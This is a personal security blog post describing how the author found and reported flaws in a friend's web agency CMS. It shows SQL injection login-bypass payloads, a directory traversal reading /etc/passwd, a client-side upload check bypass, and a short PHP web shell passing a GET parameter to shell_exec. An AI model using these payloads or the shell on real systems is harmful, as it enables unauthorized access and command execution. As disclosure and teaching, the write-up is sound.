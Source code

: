```yaml
---
layout: post
title:  "A Web Agency's Vulnerable Website"
date:   2016-01-23 00:00:00
description: One Fine Evening's Pastime
tags: Security
---
```


This article covers a company profile website. The company is owned by a friend of mine. He runs a web agency, offering his clients custom applications based on a CMS they developed. All of the things mentioned in this article has been reported to the agency to be fixed.

It should be noted not every version of their CMS is vulnerable. A later version of their CMS used in a SaaS business run by the same company is not vulnerable to the SQL injection on the admin login form and directory indexing.

#### How It Began

The story started in early November 2015. I found that [directory indexing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing) was enabled on his web agency's company profile website. After looking at the files I could see, I found out the website's admin login page and the structure of their company's CMS.

Knowing that he's running another business, I tried checking out his other business' website. Directory indexing was not enabled in this site, but I found out that they're using the same CMS engine.

I notified him for the directory indexing on his web agency (we'll call it Alpha Web Agency), and told him that directory indexing leaked some information about the structure for his SaaS business' website (we'll call it Beta Online Services). It was fixed after a few days.

That's how I gain a little knowledge on their CMS structure, and how I could perform the next steps specifically on the admin panel.

#### Two Months Later

On a Saturday evening, I decided to come back to Alpha Web Agency's website. I didn't really expect to find anything there, I just want to kill some time while waiting for a software installation to finish.

I checked once again to make sure that directory indexing is not enabled on the site. After that, I went straight to the admin login form, as I already know the exact path.

I tried to use this login credentials on the login form.

~~~
Username: '
Password: '
~~~

The application gave me an unexpected response.

![Login Response](/images/posts/alpha-web-agency-01.png)

The login form is vulnerable to SQL injection. I didn't try it when I went to Alpha Web Agency's site in November 2015. I tried to bypass the authentication sequence.

~~~
Username: ' OR 1=1--
Password: ' OR 1=1--
~~~

I still got the same response as before. So I tried another one.

~~~
Username: ' OR 1=1#
Password: ' OR 1=1#
~~~

And the admin panel is served.

![Admin Panel](/images/posts/alpha-web-agency-02.png)

The navigation in the admin panel seems to be vulnerable to directory traversal, and I tried to insert the path to `/etc/passwd` file as the parameter value.

![Directory Traversal](/images/posts/alpha-web-agency-03.png)

The admin can upload images in several menu functions. The image files should be limited to `jpg`, `gif`, and `png` files. But it's only validated with JavaScript, disabling the form submission button to be clicked when the script detected invalid file extension.

We can always disable JavaScript on modern browsers, and I successfully uploaded a PHP file.

![Upload Validation Bypass](/images/posts/alpha-web-agency-04.png)

This is the file I uploaded.

~~~php
<?php
echo '<pre>';
echo shell_exec($_GET['cmd']);
echo '</pre>';
?>
~~~

The PHP configuration on the server prevents the `shell_exec` from running, but it should be possible to do other things with an uploaded PHP file.

Beta Online Services' website is not vulnerable to SQL injection on the login form. But it's possible that it also suffers from the directory traversal vulnerability and missing upload validation on the backend. Beta Online Services is started a few years after Alpha Web Agency, therefore I assume that it's using a newer version of the CMS. Hence, some of the vulnerabilities has been fixed for Beta Online Services' website.

#### Conclusion

The report regarding the existing vulnerabilities has been sent to Alpha Web Agency, and they should be on the process of patching it. But maybe we need to have some talk about how the vulnerabilities could exist.

It's a small company run mainly by the owner. The owner started out freelancing by himself, and after a while he started to build components for future projects. He ended up developing a CMS and templates for projects. After a while, he hired a few people to help with the projects and the company is formed.

The CMS and templates might be built with project timeline in mind, and focused mainly just to have the functions running. The company is a very small company with only around five workers including the owner himself. Their hands being full with keeping up with the clients' requests in tight deadlines might be one reason that they didn't have much time to review the security of their system. Not to mention that they're also need manpower to keep Beta Online Services running.

To prevent similar problems from appearing in the future, the company might need to spare some time reviewing their code, examining their server configurations, and testing their system's security. Maybe some more manpower will help, especially security-aware web developers and administrators.